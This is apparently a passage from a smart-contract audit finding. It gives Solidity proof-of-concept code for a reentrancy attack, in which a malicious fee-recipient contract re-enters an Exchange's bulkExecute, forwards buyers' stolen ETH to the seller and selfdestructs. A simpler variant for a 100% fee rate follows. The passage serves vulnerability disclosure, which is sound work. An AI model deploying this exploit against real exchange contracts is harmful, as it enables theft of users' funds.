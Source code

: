         bool lock;
        address _seller;
        uint256 _price;
    
        constructor(address seller, uint256 price) {
            _seller = seller;
            _price = price;
        }
        receive() external payable {
            Exchange ex = Exchange(msg.sender);
            if(!lock){
                lock = true;
                // first entrance when receiving fee
                uint256 feeAmount = msg.value;
                // Create empty calldata for bulkExecute and call it
                Execution[] memory executions = new Execution[](0);
                bytes memory data = abi.encodeWithSelector(Exchange.bulkExecute.selector, executions);
                address(ex).call{value: 1}(data);
    
                // Now we received All of buyers funds. 
                // Send stolen ETH to seller minus the amount needed in order to keep execution.
                address(_seller).call{value: address(this).balance - (_price - feeAmount)}('');
    
                // selfdestruct and send funds needed to Exchange (to not revert)
                selfdestruct(payable(msg.sender));
            }
            else{
                // Second entrance after steeling balance
                // We will get here after getting funds from reentrancy
            }
        }
    }

Important to know: The exploit becomes much easier if the set fee rate is 10000 (100% of the price). This can be set by the seller. In such case, the fee recipient does not need to send funds back to the exchange contract. In such case, step #7-8 can be removed. Example code for 100% fee scenario:

    pragma solidity 0.8.17;
    
    import { Exchange } from "../Exchange.sol";
    import { Execution } from "../lib/OrderStructs.sol";
    
    contract MockFeeReceipient {
    
        bool lock;
        address _seller;
        uint256 _price;
        
        constructor(address seller, uint256 price) {
            _seller = seller;
            _price = price;
        }
        receive() external payable {
            Exchange ex = Exchange(msg.sender);
            if(!lock){
                lock = true;
                // first entrance when receiving fee
                uint256 feeAmount = msg.value;
                // Create empty calldata for bulkExecute and call it
                Execution[] memory executions = new Execution[](0);
                bytes memory data = abi.encodeWithSelector(Exchange.bulkExecute.selector, executions);
                address(ex).call{value: 1}(data);
            }
            else{
                // Second entrance after steeling balance
                // We will get here after getting funds from reentrancy
            }
        }
